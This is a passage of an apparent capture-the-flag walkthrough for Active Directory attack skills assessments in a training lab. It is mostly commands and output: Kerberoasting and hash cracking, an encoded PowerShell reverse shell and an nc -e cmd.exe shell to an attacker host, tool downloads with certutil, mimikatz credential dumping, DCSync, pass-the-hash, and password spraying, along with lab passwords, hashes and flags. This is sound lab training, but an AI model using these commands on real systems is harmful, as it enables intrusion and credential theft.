# Results:  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
######

#### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag
.\Rubeus.exe kerberoast /domain:$TargetDomain /user:$interestingUserSamAccountName /nowrap
# Example: 
# .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
# Results: [the kerberos ticket]
####

#### Crack it
hashcat -m 13100 ticketTocrack /usr/share/wordlists/rockyou.txt 
```

Results: 1logistics


**Kerberoast across the forest trust from the Linux attack host. Submit the name of another account with an SPN aside from MSSQLsvc.**

```
GetUserSPNs.py -target-domain $targetedDomain $OurDomain/$ourUserSamAccountName
# Example:
# GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
# Enter password: transporter@4
```

Results: sapsso


**Crack the TGS and submit the cleartext password as your answer.**

```
GetUserSPNs.py -request -target-domain $targetedDomain $OurDomain/$ourUserSamAccountName
# Example:
# GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
# Enter password: transporter@4

# Cracking the sapsso TGS:
hashcat -m 13100 sapsso /usr/share/wordlists/rockyou.txt  
```

Results: pabloPICASSO


**Log in to the ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL Domain Controller using the Domain Admin account password submitted for question #2 and submit the contents of the flag.txt file on the Administrator desktop.**

```
evil-winrm -i 172.16.5.238 -u sapsso -p pabloPICASSO
cat c:\Users\Administrator\Desktop\flag.txt
```

Results: burn1ng_d0wn_th3_f0rest!


### AD Enumeration & Attacks - Skills Assessment Part I 

A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

Apply what you learned in this module to compromise the domain and answer the questions below to complete part I of the skills assessment.

**Submit the contents of the flag.txt file on the administrator Desktop of the web server**

```
# Enter in http:\\$ip\uploads
# Enter creds
# Run in the terminal
type c:\Users\Administrator\Desktop\flag.txt
```

Results: JusT_g3tt1ng_st@rt3d!


**Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer**

```
# Enumerate SPNs with
setspn.exe -Q */*

### Results:
# CN=svc_sql,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
# MSSQLSvc/SQL01.inlanefreight.local:1433

# Also you can enumerate them by uploading the PowerView.ps1 the antak Choose File and Upload the file. In that case, the command line will be used to indicate the path. After that, you need to import-module every time you are going to use the cmdlet because the command line does not maintain the state. Everything runs in the context of the command.
cd C:/Users/Administrator/Documents ; Import-Module .\PowerView.ps1 ; Get-DomainUser * -spn | select samaccountname
```

Results:  svc_sql


**Crack the account's password. Submit the cleartext value.**

```powershell
# Way 1:
# a)get information about domain
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers

# b) Obtain the ticket
cd C:/Users/Administrator/Documents ; Import-Module .\PowerView.ps1 ; Get-DomainSPNTicket -SPN MSSQLSvc/SQL01.inlanefreight.local:1433 -OutputFormat Hashcat | select -ExpandProperty Hash > file.txt ; cat file.txt

# c) Copy ticket to the file sqlservice in my attacker machine and crack it:
hashcat -m 13100 sqlserver /usr/share/wordlists/rockyou.txt


# Way 2:
# a) get information about the system machine and the domain name
systeminfo
# b) get information about domain
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers
# c) Authenticate using Kerberos with the user MSSQLSvc/SQL01.inlanefreight.local:1433.
Add-Type –AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘MSSQLSvc/SQL01.inlanefreight.local:1433’
# d) Extract the generated ticket using Rubeus
.\Rubeus.exe kerberoast /simple /outfile:hashes.txt
Get-Content hashes.txt
# e) Crack it offline from your attacking machine
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt
```

Results: lucky7


**Submit the contents of the flag.txt file on the Administrator desktop on MS01**

```powershell
# Way 1:
# a) We upload the file Microsoft.ActiveDirectory.Management.dll from the Active Directory powershell module and now we can use it to enumerate computers
Import-Module .\Microsoft.ActiveDirectory.Management.dll; Get-ADComputer -Filter * | Select-Object Name 
# b) We need to concatenate commands with semi-colon. The following commands create a Secure-string object with the credential of the user svc_sql. Then we will use Invoke-Command to run a command in the remote host MS01
$password = ConvertTo-SecureString "lucky7" -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\svc_sql", $password; Invoke-Command -ComputerName "MS01.INLANEFREIGHT.LOCAL" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }


# Way 2:
# a) Upload chisel.exe:
# In your kali machine
python3 -m http.server 8080
# From the anktak webapp
Invoke-WebRequest http://10.10.15.140:8080/chisel.exe -OutFile chisel.exe
# b) See if we have connection to the machine MS01 and what IP is using
ping MS01
# We obtain IP   172.16.6.50 
# c) We connect with nc. In a terminal of our attacking machine:
nc -lnvp 1234
# d) In the antak terminal
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA1AC4AMQA0ADAAIgAsADEAMgAzADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
# e) Now we have a connection in our kali. We will open a Chisel tunnel. For that, launch the chisel server in your kali attacking machine:
./chisel.exe server -p 8001 --reverse
# f) Now in the pivot terminal that you obtained launch the .chisel.exe binary (you need to upload it before)
.\chisel.exe client 10.10.15.140:8001 R:socks
# g) The connection in the kali will give you the port in which the chisel server is listening, in my case 1080. Modify your proxychains file (/etc/proxychains4.conf) last line to 
socks5 127.0.0.1 1080.
# h) Now we can verify that the user svc_sql has access to the machine MS01 using proxychains
proxychains crackmapexec smb 172.16.6.50 -u svc_sql -p lucky7
# i) After confirmation, now we can a
proxychains path/to/impacket/examples/psexec.py INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50
# j) and get the flag:
type "C:\Users\Administrator\Desktop\flag.txt" 
```

Results: spn$_r0ast1ng_on_@n_0p3n_f1re


**Find cleartext credentials for another domain user. Submit the username as your answer.**

```
# Upload chisel.exe:
# In your kali machine
python3 -m http.server 8080
# From the anktak webapp
Invoke-WebRequest http://10.10.15.140:8080/chisel.exe -OutFile chisel.exe

# See if we have connection to the machine MS01 and what IP is using
ping MS01
# We obtain IP   172.16.6.50 

# We connect with nc. In a terminal of our attacking machine:
nc -lnvp 1234

# In the antak terminal
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA1AC4AMQA0ADAAIgAsADEAMgAzADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA

# Now we have a connection in our kali. We will open a Chisel tunnel. For that, launch the chisel server in your kali attacking machine:
chisel server -p 8000 --reverse

# Now in the pivot terminal that you obtained launch the .chisel.exe binary (you need to upload it before)
.\chisel.exe client 10.10.15.140:8000 R:socks

# The connection in the kali will give you the port in which the chisel server is listening, in my case 1080. Modify your proxychains file (/etc/proxychains4.conf) last line to 
socks5 127.0.0.1 1080.

# Now we can enter to the MS01 machine using proxychains and the svc_sql user
proxychains xfreerdp /v:172.16.6.50 /u:svc_sql /cert:ignore 
```


Now we need to enable WDigest. See this article about it: https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/

For that, right click on Powershell and open as administrator in the target machine 172.16.6.50:

```powershell
# Open a Powershell terminal and Enable "WDigest".
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
# Confirm that it is enabled
reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest"
# And 'UseLogonCredential REG_DWORD 0x1' should be set to 1, not 0. 

# For the WDigest Authentication to be in plain text we will still need to reboot the target machine. FRom the Powershell terminal
shutdown /r /t 0 /f
```



```powershell
# Now we connect again to the machine using proxychains.
proxychains xfreerdp /v:172.16.6.50 /u:svc_sql /cert:ignore 

# After gaining access we can drag our mimikatz file to the desktop. Then we will right click on mimikatz and execute as Administrator. 
privilege::debug
sekurlsa::logonpasswords
```

Results: tpetty


**Submit this user's cleartext password.**

```
# Now we connect again to the machine using proxychains.
proxychains xfreerdp /v:172.16.6.50 /u:svc_sql /cert:ignore 

# Right click on the mimikatz to open as administrator and run:
privilege::debug
sekurlsa::logonpasswords
```



Results: Sup3rS3cur3D0m@inU2eR


**What attack can this user perform?**

```
# Use BloodHound to determine permissions. First, upload the SharpHound collector. 
# Drag and drop the collector from your machine to the target, or use copy-paste. Then run the collector:
.\SharpHound.exe -c ALL --zipfilename enum

# Open Internet Explorer on the target machine and navigate to the pivot's HTML server:
http://172.16.6.100/uploads/antak.aspx
# Upload the generated collector file to the pivot host.

# Next, from the Kali machine, serve the PSUpload.ps1 file to the pivot machine (172.16.6.100):
python3 -m http.server 9001

# Retrieve the PSUpload.ps1 file on the pivot machine:
Invoke-WebRequest http://10.10.15.140:9001/PSUpload.ps1 -OutFile PSUpload.ps1

# Start an uploader server on the Kali machine:
python3 -m uploadserver

# From the pivot host, upload the generated collector file to the Kali machine:
Import-Module .\PSUpload.ps1; Invoke-FileUpload -Uri http://10.10.15.140:8000/upload -File C:\windows\system32\inetsrv\20250106032426_enum.zip 

# Start the Neo4j server on the Kali machine:
sudo neo4j console

# Open BloodHound:
bloodhound

# In BloodHound, search for the node "tpetty." Set it as the starting node. 
# In the "Node Info" blade, scroll down to "Outbound Object Control" and check the "First Degree Object Control" section. 
# Confirm that the user has DCSync permissions over INLANEFREIGHT.LOCAL.
```



Results: DCSync


**Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01**

```
# Get the User TPetty's SID:
Import-Module .\PowerView.ps1; Get-DomainUser -Identity TPETTY  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

# With the $sid, checkout the replication rights:
Import-Module .\PowerView.ps1; $sid= "S-1-5-21-2270287766-1317258649-2146029398-4607"; Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

# However we already knew this from the Bloodhound analysis.

# Now we open a powershell as TPETTY user in the target host 172.16.6.50 and launch mimikatz.exe
.\mimikatz.exe

# Now we can request the domain to dump the NTLM hashes as Administrators:
lsadump::dcsync /domain:inlanefreight.local /user:Administrator

# And now from our attacker machine, we can retrieve the flag launching a pass the hash attack
proxychains crackmapexec smb 172.16.6.3 -u Administrator -H "27dedb1dab4d8545c6e1c66fba077da0" -d INLANEFREIGHT.LOCAL -x 'type c:\Users\Administrator\Desktop\flag.txt' --exec-method smbexec 

```

Results: r3plicat1on_m@st3r!


### AD Enumeration & Attacks - Skills Assessment Part II

**Obtain a password hash for a domain user account that can be leveraged to gain a foothold in the domain.**

```
# Access the pivot machine using two separate terminals:
ssh $user@$ip

# In one terminal, set up a Responder server:
ip a
responder -I ens224

# In the other terminal, perform a reconnaissance scan using Nmap:
nmap -T4 -A 172.16.7.0/23 -oN scan.txt

# The Responder server will capture several user credentials during the scan.
```

Results: AB920


**What is this user's cleartext password?**

```
# Open the responder log
cd /usr/share/responder/logs
ls -la
cat cat SMB-NTLMv2-SSP-172.16.7.3.txt

# Crack the hash
hashcat -m 5600 AB920 /usr/share/wordlists/rockyou.txt
```

Results: weasal


 **Submit the contents of the C:\flag.txt file on MS01.**

```
# Launch a reverse proxy. From you kali terminal, use a ssh reverse proxy. In my case, I had already set in /etc/proxychains4.conf the port 1080, so I will use the same
ssh htb-student@10.129.41.78 -D 1080

# In another terminal from your attacker machine:
proxychains xfreerdp /v:172.16.7.50 /u:AB920 /cert:ignore
# When prompted, enter the creds: weasal

# Open a powershell terminal and
cat c:\flag.txt
```

Results: aud1t_gr0up_m3mbersh1ps!


**Use a common method to obtain weak credentials for another user. Submit the username for the user whose credentials you obtain.**

```
# Establish an SSH connection with a SOCKS reverse proxy:
ssh htb-student@$ip -D 1080

# Perform host enumeration by connecting to 172.16.7.50 using RDP:
proxychains xfreerdp /v:172.16.7.50 /u:AB920 /cert:ignore

# Enumerate the password policy from the Kali attacking machine:
proxychains crackmapexec smb 172.16.7.3 -u AB920 -p weasal --pass-pol
```



```
# Enumerate user accounts on the target machine:
proxychains crackmapexec smb 172.16.7.3 -u AB920 -p weasal --users > users.txt

# Extract and format the list of users to keep only usernames:
sed -E 's/.*INLANEFREIGHT\.LOCAL\\([A-Z0-9]+).*/\1/' users.txt > final.txt

# Perform a password spray attack from the Kali terminal:
proxychains crackmapexec smb 172.16.7.3 -u final.txt -p /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt --no-bruteforce

# Note: This process may take some time.

# Conduct a brute-force attack using Hydra:
proxychains hydra -L ~/borrar/final.txt -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt smb://172.16.7.3
```

Results: BR086

**What is this user's password?**

Results: Welcome1


**Locate a configuration file containing an MSSQL connection string. What is the password for the user listed in this file?**

```bash
# Enumerate shared directories on DC01.
proxychains smbmap -u BR086 -p Welcome1 -d INLANEFREIGHT.LOCAL -H 172.16.7.3 -r 

# Method 1: Using RDP and File Explorer
# After confirming access, connect to the MS01 host (172.16.7.50) using RDP:
proxychains xfreerdp /v:172.16.7.50 /u:BR086 /cert:ignore

# On the RDP session, open File Explorer and enter the following address in the address bar:
\\172.16.7.3

# View the available shares on DC01.INLANEFREIGHT.LOCAL. Navigate to:
\\172.16.7.3\Department Shares\IT\Private\Development

# Locate the `web.config` file within this directory.

# Method 2: Accessing shares directly from the Kali terminal
# Use `smbmap` to list contents of the "Department Shares" directory:
proxychains smbmap -u BR086 -p Welcome1 -d INLANEFREIGHT.LOCAL -H 172.16.7.3 -R "Department Shares"

# Use `smbclient` to connect to the "Department Shares" directory:
proxychains smbclient "//172.16.7.3/Department Shares" -U "inlanefreight\BR086"

# Navigate to the desired path:
cd IT/Private/Development

# Retrieve the `web.config` file:
get web.config
quit

# View the contents of the retrieved file:
cat web.config

```

Results: D@ta_bAse_adm1n!
user: netdb

**Submit the contents of the flag.txt file on the Administrator Desktop on the SQL01 host.**

```bash
# Using the user credentials from the previous exercise, we access the MSSQL database:
proxychains sqsh -S 172.16.7.60 -U netdb -P 'D@ta_bAse_adm1n!' -h

# Attempting to access the flag, but we lack the necessary permissions:
EXEC xp_cmdshell 'type c:\Users\Administrator\Desktop\flag.txt'
go

# Next, we will execute an attack to capture the MSSQL Service Hash.
# First, we will run Responder on the Parrot pivot machine (172.16.7.240):
sudo responder -I tun0

# Then, from the database connection, we will attempt to connect to a share:
EXEC master..xp_dirtree '\\172.16.7.240\share\'

# Responder will capture the hash:
[SMB] NTLMv2-SSP Client   : 172.16.7.60
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\SQL01$
[SMB] NTLMv2-SSP Hash     : SQL01$::INLANEFREIGHT:990b191e92859598:DF973B2CBBD93043B5EDFFF6759136CC:01010000000000000022FC45F460DB018568A6F6B8DD56FA0000000002000800590032004200300001001E00570049004E002D004E004100370059004A004100480045004E003300550004003400570049004E002D004E004100370059004A004100480045004E00330055002E0059003200420030002E004C004F00430041004C000300140059003200420030002E004C004F00430041004C000500140059003200420030002E004C004F00430041004C00070008000022FC45F460DB0106000400020000000800300030000000000000000000000000300000011450EFCD9DCCD865F6DC7EB88F78C1416D20A04A5E33C2E24A3FD09103F3C70A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0037002E003200340030000000000000000000

# However, this doesn't yield any results (I attempted to access services/machines using CrackMapExec). So, I eventually obtained a simple reverse shell by exploiting the SQL server to enumerate more easily.
# First, I uploaded nc64.exe to the pivot host (172.16.7.240). Then, I served the file to 172.16.7.60:
python3 -m http.server 9001

# From the terminal with the connection to the server (172.16.7.60), I uploaded the file to SQL01:
xp_cmdshell "powershell -c cd C:\Users\Public\Downloads; Invoke-WebRequest http://172.16.7.240:9001/nc64.exe -outfile nc64.exe"
go 

# Verify the file has been uploaded:
xp_cmdshell "powershell -c dir C:\Users\Public\Downloads"
go 

# Start a listener on the Parrot pivot machine (172.16.7.240):
nc -lnvp 5665

# Now, establish the reverse connection:
xp_cmdshell "powershell -c cd C:\Users\Public\Downloads; .\nc64.exe -e cmd.exe 172.16.7.240 5665"

# On the Parrot pivot machine, we now have a reverse shell from 172.16.7.60. We can begin enumeration.
whoami /priv

# We will notice the following privileges:
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process-level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

# We will exploit SeImpersonatePrivilege, which allows us to elevate from LOCAL/NETWORK SERVICE to SYSTEM by leveraging the PrintSpoofer vulnerability on Windows 10 and Server 2016/2019.

# On your Kali machine, download the PrintSpoofer executable from https://github.com/itm4n/PrintSpoofer. Transfer the file to the Parrot pivot host (172.16.7.240). Then, on the Parrot pivot host, serve the file:
python3 -m http.server 9001

# From the reverse shell terminal (172.16.7.60), download the file:
powershell -c cd C:\Users\Public\Downloads;  Invoke-WebRequest http://172.16.7.240:9001/PrintSpoofer64.exe -outfile PrintSpoofer64.exe

# From the reverse shell terminal (172.16.7.60), execute the PrintSpoofer tool:
.\PrintSpoofer64.exe -i -c cmd.exe

# Verify the current user:
whoami

# Finally, retrieve the flag:
type c:/Users/Administrator/Desktop/flag.txt
```

Results:  s3imp3rs0nate_cl@ssic


 **Submit the contents of the flag.txt file on the Administrator Desktop on the MS01 host.**

```
# We have gained admin rights on the host SQL01 (172.16.7.60). From there, we will use Mimikatz. To do so, we need to transfer the Mimikatz executable from our Kali machine to the Parrot pivot machine.
# On Kali:
python3 -m http.server 9001

# On the Parrot pivot machine:
wget http://10.10.15.140:9001/mimikatz.exe

# Now, we will serve the file from the Parrot pivot machine:
python3 -m http.server 9001

# From the reverse shell on SQL01 (172.16.7.60), open PowerShell and download the file:
powershell
certutil -urlcache -split -f http://172.16.7.240:9001/mimikatz.exe mimikatz.exe

# Run Mimikatz and list the users logged into the machine and still in memory:
.\mimikatz.exe
privilege::debug
token::elevate
sekurlsa::logonPasswords full

# We will notice this user with the NTLM hash:
# mssqlsvc
# NTLM: 8c9555327d95f815987c0d81238c7660

####### Way 1
# Now, from our Kali machine, we will use the SSH reverse proxy established earlier with `ssh $user@$ip -D 9050` to access the MS01 target machine. We will use the Pass-The-Hash technique:
proxychains crackmapexec smb 172.16.7.50 -u mssqlsvc -H 8c9555327d95f815987c0d81238c7660 -d INLANEFREIGHT.LOCAL 

# Dumping SAM hashes:
proxychains crackmapexec smb 172.16.7.50 -u mssqlsvc -H 8c9555327d95f815987c0d81238c7660 -d INLANEFREIGHT.LOCAL --sam

########
# SMB         172.16.7.50     445    MS01             [+] Dumping SAM hashes
# SMB         172.16.7.50     445    MS01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
# SMB         172.16.7.50     445    MS01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         172.16.7.50     445    MS01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         172.16.7.50     445    MS01             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
# SMB         172.16.7.50     445    MS01             [+] Added 4 SAM hashes to the database
##########

# NTDS dump:
proxychains crackmapexec smb 172.16.7.50 -u mssqlsvc -H 8c9555327d95f815987c0d81238c7660 -d INLANEFREIGHT.LOCAL --ntds
#### [+] Dumped 0 NTDS hashes

# Now, we can extract the flag:
# First, check the user:
proxychains crackmapexec smb 172.16.7.50 -u mssqlsvc -H bdaffbfe64f1fc646a3353be1c2c3c99 -d INLANEFREIGHT.LOCAL  -x 'whoami' --exec-method smbexec
# Result: nt authority\system

# Now, print the flag.txt:
proxychains crackmapexec smb 172.16.7.50 -u mssqlsvc -H 8c9555327d95f815987c0d81238c7660 -d INLANEFREIGHT.LOCAL  -x 'type c:\Users\Administrator\Desktop\flag.txt' --exec-method smbexec

####### Way 2
# Another way is to open an RDP connection using Pass-the-Hash:
proxychains xfreerdp /v:172.16.7.50 /u:mssqlsvc /pth:8c9555327d95f815987c0d81238c7660 /cert-ignore

# We encounter an issue: **Restricted Admin Mode** is disabled by default on the target host, which results in an error. To proceed, we need to enable this mode. 
# As we have command execution access via CrackMapExec on 172.16.7.50, we will add a registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with a value of 0.
proxychains crackmapexec smb 172.16.7.50 -u mssqlsvc -H 8c9555327d95f815987c0d81238c7660 -d INLANEFREIGHT.LOCAL  -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f' --exec-method smbexec

# Now we can access the target via RDP:
proxychains xfreerdp /v:172.16.7.50 /u:mssqlsvc /pth:8c9555327d95f815987c0d81238c7660 /cert-ignore

# Finally, open PowerShell as Admin and read the file.
```

Results:  exc3ss1ve_adm1n_r1ights!


**Obtain credentials for a user who has GenericAll rights over the Domain Admins group. What's this user's account name?**

```powershell
# We have obtained a foothold with administrative rights on the MS01 host (172.16.7.50). From here, we will use SharpHound to collect Active Directory data. First, we transfer the SharpHound executable from our Kali machine to the Parrot pivot machine.

# On the Kali machine:
python3 -m http.server 9001

# On the Parrot pivot machine:
wget http://10.10.15.140:9001/SharpHound.exe

# Serve the SharpHound executable from the Parrot pivot machine:
python3 -m http.server 9001

# From the MS01 host (172.16.7.50) via RDP:
proxychains xfreerdp /v:172.16.7.50 /u:mssqlsvc /pth:8c9555327d95f815987c0d81238c7660 /cert-ignore

# Open a PowerShell terminal and download the SharpHound executable:
powershell
certutil -urlcache -split -f http://172.16.7.240:9001/SharpHound.exe SharpHound.exe

# Run the SharpHound collector on MS01 (172.16.7.50):
.\SharpHound.exe -c All --zipfilename enum

# Save the collected data in the `C:\Users\Public\Downloads` folder. Configure the folder to be shared on the network. Once shared, download the collected data to the Kali machine:
proxychains smbclient "//172.16.7.50/Users" -U "inlanefreight\BR086"
cd Public
cd Downloads
get file_enum.zip

# Open BloodHound for analysis:
# In one terminal, start the Neo4j database:
sudo neo4j console

# In another terminal, launch BloodHound:
bloodhound

# Upload the collected data file (file_enum.zip) to BloodHound.

# Set `DOMAIN.ADMINS` as the starting node for analysis. In the Node tab, click on "Inbound Control Rights" > "Explicit Objects Controllers" and identify the user `CT059`.
```

Results: CT059


**Crack this user's password hash and submit the cleartext password as your answer.**

```powershell
# Upload Inveigh.exe to the MS01 machine:
# From the Parrot pivot machine (172.16.7.240), start a Python HTTP server:
python3 -m http.server 9001
# From the MS01 host machine (172.16.7.50), download the file using CertUtil:
certutil -urlcache -split -f http://172.16.7.240:9001/Inveigh.exe Inveigh.exe

# Run Inveigh.exe on the MS01 host machine (172.16.7.50):
.\Inveigh.exe

# After some time, observe the captured NTLMv2 hash:
[+] SMB(445) NTLMv2 captured for [INLANEFREIGHT\CT059] from 172.16.7.3 (DC01):51255:
CT059::INLANEFREIGHT:12263838B200FD3E:3EE6EA4C91EC7FB8A095770E051B8376:0101000000000000E08DF4460462DB01364B979606FF3B0B0000000002001A0049004E004C0041004E0045004600520045004900470048005400010008004D005300300031000400260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C00030030004D005300300031002E0049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C000500260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C0007000800E08DF4460462DB01060004000200000008003000300000000000000000000000002000004CEB572AE37933B1CF59600EAD9B1A90422724811037093D434F05A8D1980E0E0A001000000000000000000000000000000000000900200063006900660073002F003100370032002E00310036002E0037002E0035003000000000000000000000000000

# Crack the captured NTLMv2 hash using Hashcat:
hashcat -m 5600 CT059 /usr/share/wordlists/rockyou.txt
```

Results: charlie1


**Submit the contents of the flag.txt file on the Administrator desktop on the DC01 host.**

```bash
# First, we test our connection:
proxychains crackmapexec smb 172.16.7.3 -u CT059 -p charlie1 -d INLANEFREIGHT.LOCAL

# We observe that this user has a GenericAll ACL over the domain, meaning they have the ability to add another user to the Domain Admins group, for example.

# To proceed, we first open a terminal session on MS01. For this, we need to modify the registry:
